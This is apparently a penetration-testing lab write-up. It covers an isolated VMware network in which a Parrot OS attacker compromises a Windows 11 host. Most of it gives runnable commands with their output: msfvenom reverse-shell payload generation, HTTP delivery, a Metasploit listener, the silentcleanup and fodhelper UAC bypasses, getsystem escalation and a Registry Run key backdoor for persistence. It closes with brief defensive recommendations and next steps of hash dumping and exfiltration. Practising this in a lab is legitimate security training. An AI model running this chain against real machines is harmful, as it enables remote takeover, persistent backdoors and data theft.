







# MSFVenom Payload Delivery & Privilege Escalation Lab

Date: 2026-08-21
Attacker Machine: Parrot OS (10.10.1.13)
Target: Windows 11 (10.10.1.11)
Tools: MSFVenom, Metasploit, Apache
Environment: VMware isolated lab network

---

## Objective
Generate malicious payloads using MSFVenom, deliver them
to a Windows 11 target via Apache web server, catch a
Meterpreter shell, bypass UAC and escalate to SYSTEM.

---

## What is Privilege Escalation?
After gaining initial access, privilege escalation is the
process of gaining higher level permissions on the target.
UAC bypass techniques allow an attacker to move from a
standard Admin shell to full SYSTEM level access without
triggering Windows security prompts.

The attack flow:
1. Generate payload with MSFVenom
2. Host payload on Apache web server
3. Target downloads and executes payload
4. Attacker catches Meterpreter shell
5. UAC bypassed to elevate privileges
6. SYSTEM access gained via getsystem

---

## Step 1 — Generate Payloads Using MSFVenom

Two payloads were generated. test.exe on port 444 for
initial access and registry.exe on port 4444 for
persistence after UAC bypass.

    msfvenom -p windows/meterpreter/reverse_tcp \
    lhost=10.10.1.13 lport=444 -f exe > \
    /home/attacker/Desktop/test.exe

    msfvenom -p windows/meterpreter/reverse_tcp \
    lhost=10.10.1.13 lport=4444 -f exe > \
    /home/attacker/Desktop/registry.exe

    Payload size: 354 bytes
    Final size of exe file: 73802 bytes

---

## Step 2 — Target Downloads Payload via Browser

Payloads were hosted on Apache at 10.10.1.13/share.
The target machine browsed to the URL and downloaded
the payload files directly.

    http://10.10.1.13/share/

Files available:
- test.exe
- registry.exe
- windows.exe

---

## Step 3 — Launch Metasploit

msfconsole was launched on the attacker machine to
begin setting up the listener for the incoming
reverse shell connection.

    sudo su
    msfconsole

---

## Step 4 — Configure Listener

multi/handler was configured with the correct payload,
LHOST and LPORT to catch the shell from the target.

    use exploit/multi/handler
    set payload windows/meterpreter/reverse_tcp
    set lhost 10.10.1.13
    set lport 4444
    exploit

    [*] Started reverse TCP handler on 10.10.1.13:4444
    [*] Sending stage (177734 bytes) to 10.10.1.11
    [*] Meterpreter session 1 opened at 2026-08-21 04:34:44

---

## Step 5 — Initial Shell Caught

Target executed the payload. Meterpreter session 1
was opened and identity confirmed with getuid.

    (Meterpreter 1)(C:\Windows\system32) > getuid
    Server username: Windows_11\Admin

---

## Step 6 — Setup UAC Bypass via SilentCleanup

Session was backgrounded and bypassuac_silentcleanup
module was loaded to escalate privileges past UAC.

    background
    use exploit/windows/local/bypassuac_silentcleanup
    set session 1
    set LHOST 10.10.1.13
    set TARGET 0
    exploit

    [*] Sending stage (177734 bytes) to 10.10.1.11
    [+] Part of Administrators group! Continuing...
    [*] Meterpreter session 2 opened at 2026-08-21 04:08:55

---

## Step 7 — Escalate to SYSTEM via fodhelper

bypassuac_fodhelper was used to get a fully elevated
session. getsystem escalated to SYSTEM via Named Pipe
Impersonation. Registry persistence was then added.

    use exploit/windows/local/bypassuac_fodhelper
    set SESSION 1
    set LHOST 10.10.1.13
    set LPORT 4444
    exploit

    getsystem -t 1
    ...got system via Named Pipe Impersonation (In Memory/Admin)

    reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Run \
    /v backdoor /t REG_EXPAND_SZ \
    /d "C:\Users\Admin\Downloads\registry.exe"

    The operation completed successfully.

---

## Attack Summary

| Step | Action | Result |
|------|--------|--------|
| 1 | MSFVenom payloads created | test.exe and registry.exe |
| 2 | Target downloaded payload | Files served at /share |
| 3 | msfconsole launched | Ready for connection |
| 4 | Listener configured | Port 4444 ready |
| 5 | Initial shell caught | Session 1 Windows_11\Admin |
| 6 | silentcleanup executed | Session 2 elevated |
| 7 | fodhelper and getsystem | SYSTEM access confirmed |
| 8 | Registry persistence added | Backdoor key created |

---

## Critical Findings

| Finding | Detail | Impact |
|---------|--------|--------|
| Initial access gained | Windows_11\Admin | CRITICAL |
| UAC bypassed | silentcleanup and fodhelper | CRITICAL |
| SYSTEM privileges gained | Named Pipe Impersonation | CRITICAL |
| Persistence established | Registry Run key backdoor | CRITICAL |
| Payload delivery via HTTP | Apache web server used | HIGH |

---

## What Can Be Done With This Access

With SYSTEM level access:
- Dump all password hashes with hashdump
- Access all files on the system
- Disable Windows Defender permanently
- Create new admin accounts
- Pivot to other machines on the network
- Exfiltrate sensitive data

---

## Lessons Learned

1. MSFVenom generates payloads quickly for any port
2. Apache is a simple payload delivery method that
   blends in with normal web traffic
3. UAC is not a true security boundary and can be
   bypassed with built in Windows binaries
4. getsystem automates privilege escalation using
   multiple techniques until one succeeds
5. Registry Run keys survive reboots and remain
   an effective persistence method

---

## Defensive Recommendations

- Block outbound connections to unknown hosts
- Monitor Apache or web server use internally
- Enable Windows Defender with latest signatures
- Monitor registry Run key modifications
- Deploy EDR with behavioral detection
- Enable UAC to highest level
- Use application whitelisting

---

## Tools Used
- MSFVenom (Metasploit Framework)
- Metasploit multi/handler
- Apache Web Server
- bypassuac_silentcleanup
- bypassuac_fodhelper
- Parrot Security OS

---

## Next Steps
- Run hashdump to extract all password hashes
- Attempt lateral movement to other machines
- Deploy additional persistence mechanisms
- Exfiltrate sensitive files from the target 
